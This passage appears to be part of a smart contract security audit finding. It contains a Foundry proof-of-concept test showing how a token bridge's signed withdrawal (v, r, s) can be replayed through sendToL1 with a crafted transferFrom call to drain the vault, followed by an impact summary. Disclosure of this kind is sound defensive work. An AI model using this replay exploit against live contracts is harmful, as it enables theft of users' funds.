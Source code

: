 ```
        assertEq(token.balanceOf(address(vault)), amount * 2);
        vm.stopPrank();

        // withdraw once to the attacker address thanks to one signer. (legitimate)
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(attacker, amount),
            operator.key
        );

        vm.prank(operator.addr);
        tokenBridge.withdrawTokensToL1(attacker, amount, v, r, s);

        // The attacker can access v, r, s and even the message sent
        // (or deduce it thanks to the source code) in any block explorer
        // and reuse it like that to steal money remaining in the vault

        bytes memory message_sent_by_signer = abi.encode(
            address(token),
            0,
            abi.encodeCall(
                IERC20.transferFrom,
                (address(vault), attacker, amount)
            )
        );

        // use same argument but sent by the hacker (NOT legitimate)
        vm.startPrank(attacker);
        tokenBridge.sendToL1(v, r, s, message_sent_by_signer);

        // Check the success of the steal (return of the initial balance + amount stolen)
        assertEq(token.balanceOf(attacker), 1000e18 + amount);

        // Give back money because we are white hats, not sneaky thief.

        token.transfer(address(vault), amount);
        assertEq(token.balanceOf(attacker), 1000e18);
        vm.stopPrank();
    }
```

## Impact

This vulnerability allows any user to steal funds by replaying a previously signed withdraw transaction. The potential impacts include:

- Unauthorized fund transfers: An attacker can resend a previously signed message, tricking the contract into executing the transaction and transferring funds to their desired target address.
- Financial loss: Users who expect their transactions to be secure may fall victim to unauthorized fund transfers, resulting in financial losses.

## Tools Used
